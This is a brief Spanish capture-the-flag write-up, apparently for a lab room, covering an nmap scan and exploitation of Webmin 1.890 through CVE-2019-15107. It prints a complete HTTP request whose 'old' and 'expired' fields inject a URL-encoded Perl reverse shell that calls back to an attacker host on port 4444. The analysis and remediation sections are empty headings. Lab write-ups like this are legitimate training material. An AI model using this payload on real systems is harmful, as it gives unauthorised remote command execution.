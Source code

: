 # Source

## Initial Scan
```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
## Exploit 
En la room en si nos dicen que es una vulnerabilidad reciente y que no necesitamos autentificacón para explotarla, eso nos deja un único candidato
### CVE 2019-15107

Los exploit que he encontrado sin metasploit todos inyectan solo en el parametro old, pero por algún motivo que ahora mismo desconozco para que el exploit funcione de manera correcta hay que inyectar tambien el expired, para ello crafteamos la siguiente request en burpsuite y con ello obtenemos una reverse shell en nuestra máquina
```
POST /password_change.cgi HTTP/1.1
Host: 10.10.156.161:10000
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Referer: https://IP:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 499
Connection: close
cache-control: no-cache

expired=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22(LHOST)3A4444%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27&new1=haxxedid
&new2=haxxed&old=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22(LHOST)%3A4444%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27
```

# Analisís de la intrusión
## CVE

# Soluciones 
## CVE
